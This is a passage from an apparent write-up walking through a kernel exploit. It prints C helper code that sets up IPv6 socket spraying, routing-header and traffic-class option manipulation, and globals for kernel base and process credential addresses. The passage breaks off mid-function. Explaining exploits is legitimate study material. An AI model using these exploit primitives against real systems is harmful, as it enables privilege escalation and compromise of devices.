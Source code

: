 Let us look at how the exploit does this.
First, it declares some helper functions (you can skip reading this):
```c
int kqueue(void);
int kevent(int kq, const struct kevent *changelist, int nchanges,
           struct kevent *eventlist, int nevents,
           const struct timespec *timeout);
static uint64_t kernel_base;
static uint64_t p_ucred, p_fd;
static uint64_t kevent_addr, pktopts_addr;
static int triggered = 0;
static int kevent_sock, master_sock, overlap_sock, victim_sock;
static int spray_sock[NUM_SPRAY];
static int kq[NUM_KQUEUES];
static void hexDump(const void *data, size_t size) {
  size_t i;
  for(i = 0; i < size; i++) {
    printf("%02hhX%c", ((char *)data)[i], (i + 1) % 16 ? ' ' : '\n');
  }
  printf("\n");
}
static int new_socket(void) {
  return socket(AF_INET6, SOCK_DGRAM, IPPROTO_UDP);
}
static void build_tclass_cmsg(char *buf, int val) {
  struct cmsghdr *cmsg;
  cmsg = (struct cmsghdr *)buf;
  cmsg->cmsg_len = CMSG_LEN(sizeof(int));
  cmsg->cmsg_level = IPPROTO_IPV6;
  cmsg->cmsg_type = IPV6_TCLASS;
  *(int *)CMSG_DATA(cmsg) = val;
}
static int build_rthdr_msg(char *buf, int size) {
  struct ip6_rthdr *rthdr;
  int len;
  len = ((size >> 3) - 1) & ~1;
  size = (len + 1) << 3;
  memset(buf, 0, size);
  rthdr = (struct ip6_rthdr *)buf;
  rthdr->ip6r_nxt = 0;
  rthdr->ip6r_len = len;
  rthdr->ip6r_type = IPV6_RTHDR_TYPE_0;
  rthdr->ip6r_segleft = rthdr->ip6r_len >> 1;
  return size;
}
static int get_rthdr(int s, char *buf, socklen_t len) {
  return getsockopt(s, IPPROTO_IPV6, IPV6_RTHDR, buf, &len);
}
static int set_rthdr(int s, char *buf, socklen_t len) {
  return setsockopt(s, IPPROTO_IPV6, IPV6_RTHDR, buf, len);
}
static int free_rthdr(int s) {
  return set_rthdr(s, NULL, 0);
}
static int get_tclass(int s) {
  int val;
  socklen_t len = sizeof(val);
  getsockopt(s, IPPROTO_IPV6, IPV6_TCLASS, &val, &len);
  return val;
}
static int set_tclass(int s, int val) {
  return setsockopt(s, IPPROTO_IPV6, IPV6_TCLASS, &val, sizeof(val));
}
static int get_pktinfo(int s, char *buf) {
```